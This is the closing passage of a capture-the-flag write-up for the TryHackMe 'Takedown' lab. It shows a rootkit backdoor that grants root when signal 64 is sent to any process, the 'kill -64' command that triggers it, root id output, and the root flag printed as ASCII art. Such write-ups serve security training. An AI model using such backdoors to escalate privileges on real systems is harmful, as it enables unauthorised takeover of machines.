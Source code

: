 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Takedown/images/a2.png)

```
Sending a signal 64(to any pid) makes the given user become root;
```

**Hmm... So, that means I can escalate to root by sending a signal 64 to any pid via `kill`??**
```
webadmin-lowpriv@www-infinity:~$ kill -64 1337
webadmin-lowpriv@www-infinity:~$ whoami;id
root
uid=0(root) gid=0(root) groups=0(root),1001(webadmin-lowpriv)
```

And I'm root! :D

# Rooted

**root.txt:**
```
webadmin-lowpriv@www-infinity:~$ cat /root/root.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@#*****(/****/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@#***&@/,,,,,,,,%@#***@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@&**#(,,,,,,,,,,,,*,,,,,@**/@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@(**/,,,,,,,,,,,,,,,,,,**,,,,/**@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@%**,,,,,,,,,,,,#&@@%*,,,,,,***,,***@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@/**,***,,,,(@/*********/@@,,,,****,**%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@*******,,,/*,*************,,/#,,,******#@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@******,,,,,,******************,,,,,******(@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@******,,,,,**&@@@@@****(@@@@@&***,,,,******%@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(*****,,,,/@@@@@@@@@@***@@@@@@@@@@**,,,******@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@*****,,,/@@@@*****%@****/@#****/@@@@/,,,*****/@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@(***,,,,@@@@@@@@@@@***(&(***@@@@@@@@@@@*,,,****@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@***,,,,@&&@@@@@@@%@@@@@@@@@@@#@@@@@@@#&@*,,,***%@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@#**,,,,***@@@@@@@@@@@@@@@@@@@@@@@@@@@@%***,,,****@@@@@@@@@@@@@@@@@
@@@@@@@@@@&****,,,,***/@@@#@@@@@@/*****(@@@@@@%@@@/***,,,******@@@@@@@@@@@@@@@
@@@@@@@@@*******,,,,***@@@@(@@@@@******/@@@@@%@@@%***,,,,*******/@@@@@@@@@@@@@
@@@@@@@@&********,,,****@@@@@*&@@@@#*%@@@@%*@@@@%****,,,*********@@@@@@@@@@@@@
@@@@@@@@@@(********,,****#@@@@&***********@@@@@/****,,,********@@@@@@@@@@@@@@@
@@@@@@@@@@@@%*******,,*****&@(@(*********#@/@%*****,,*******/@@@@@@@@@@@@@@@@@
```